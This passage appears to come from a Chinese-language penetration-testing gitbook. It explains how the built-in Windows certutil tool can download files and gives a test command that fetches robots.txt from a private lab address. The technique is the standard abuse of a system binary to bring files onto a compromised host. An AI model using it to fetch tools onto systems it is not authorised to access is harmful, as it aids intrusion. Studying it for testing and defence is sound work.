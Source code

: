 ![&#x533F;&#x540D;&#x7248;](../../.gitbook/assets/image%20%28418%29.png)

![&#x5BC6;&#x7801;&#x7248;](../../.gitbook/assets/image%20%28410%29.png)

![&#x6700;&#x77ED;&#x8BED;&#x53E5;&#x7248;](../../.gitbook/assets/image%20%28413%29.png)

## 4、certutil下载


该工具是证书服务的组件，用于转储和显示证书颁发机构配置信息，配置证书服务，备份和还原CA组件以及验证证书，密钥对和证书链。 经过测试该组件在Win2003、2008、7、10里可用，**XP下没有**

**1、下载测试**

```text
certutil.exe -urlcache -split -f http://172.16.175.1/robots.txt
```

![](../../.gitbook/assets/image%20%28399%29.png)
